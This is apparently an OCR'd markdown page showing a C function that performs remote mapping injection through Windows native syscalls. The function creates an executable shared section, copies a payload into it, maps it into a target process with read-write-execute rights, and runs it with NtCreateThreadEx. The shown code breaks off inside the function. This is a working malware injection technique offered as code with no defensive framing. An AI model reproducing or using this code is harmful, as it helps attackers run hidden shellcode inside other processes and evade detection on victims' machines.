 #### RemoteMappingInjectionViaSyscalls

```c
BOOL RemoteMappingInjectionViaSyscalls(IN HANDLE hProcess, IN PVOID pPayload, IN SIZE_T sPayloadSize) {

	HANDLE				hSection			= NULL;
	HANDLE				hThread				= NULL;
	PVOID				pLocalAddress		= NULL,
					    pRemoteAddress		= NULL;
	NTSTATUS			STATUS				= NULL;
	SIZE_T				sViewSize			= NULL;
	LARGE_INTEGER		MaximumSize 		= {
			.HighPart = 0,
			.LowPart = sPayloadSize
	};

//--------------------------------------------------------------------------
	// Allocating local map view 

	if ((STATUS = NtCreateSection(&hSection, SECTION_ALL_ACCESS, NULL, &MaximumSize, PAGE_EXECUTE_READWRITE, SEC_COMMIT, NULL)) != 0) {
		printf("[!] NtCreateSection Failed With Error : 0x%0.8X \n", STATUS);
		return FALSE;
	}

	if ((STATUS = NtMapViewOfSection(hSection, (HANDLE)-1, &pLocalAddress, NULL, NULL, NULL, &sViewSize, ViewShare, NULL, PAGE_READWRITE)) != 0) {
		printf("[!] NtMapViewOfSection [L] Failed With Error : 0x%0.8X \n", STATUS);
		return FALSE;
	}

	printf("[+] Local Memory Allocated At : 0x%p Of Size : %d \n", pLocalAddress, sViewSize);

//--------------------------------------------------------------------------
	
	// Writing the payload
	printf("[#] Press <Enter> To Write The Payload ... ");
	getchar();
	memcpy(pLocalAddress, pPayload, sPayloadSize);
	printf("\t[+] Payload is Copied From 0x%p To 0x%p \n", pPayload, pLocalAddress);

//--------------------------------------------------------------------------

	// Allocating remote map view 
	if ((STATUS = NtMapViewOfSection(hSection, hProcess, &pRemoteAddress, NULL, NULL, NULL, &sViewSize, ViewShare, NULL, PAGE_EXECUTE_READWRITE)) != 0) {
		printf("[!] NtMapViewOfSection [R] Failed With Error : 0x%0.8X \n", STATUS);
		return FALSE;
	}

	printf("[+] Remote Memory Allocated At : 0x%p Of Size : %d \n", pRemoteAddress, sViewSize);

//--------------------------------------------------------------------------
	
	// Executing the payload via thread creation
	printf("[#] Press <Enter> To Run The Payload ... ");
	getchar();
	printf("\t[i] Running Thread Of Entry 0x%p ... ", pRemoteAddress);
	if ((STATUS = NtCreateThreadEx(&hThread, THREAD_ALL_ACCESS, NULL, hProcess, pRemoteAddress, NULL, NULL, NULL, NULL, NULL, NULL)) != 0) {
		printf("[!] NtCreateThreadEx Failed With Error : 0x%0.8X \n", STATUS);
		return FALSE;
	}
```